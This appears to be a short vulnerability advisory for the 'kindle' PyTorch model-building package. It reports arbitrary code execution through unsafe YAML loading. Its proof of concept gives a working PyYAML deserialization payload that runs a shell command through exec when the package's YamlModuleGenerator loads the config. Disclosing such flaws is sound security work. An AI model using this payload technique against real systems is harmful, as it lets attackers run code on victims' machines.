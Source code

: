 # Description

`Kindle` is an easy model build package for PyTorch. Building a deep learning model became so simple that almost all model can be made by copy and paste from other existing model codes, which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install kindle
```

### Run exploit.py
```
import os
#os.sysem('pip3 install kindle')
from kindle.generator import custom_yaml_module
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
custom_yaml_module.YamlModuleGenerator('config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution

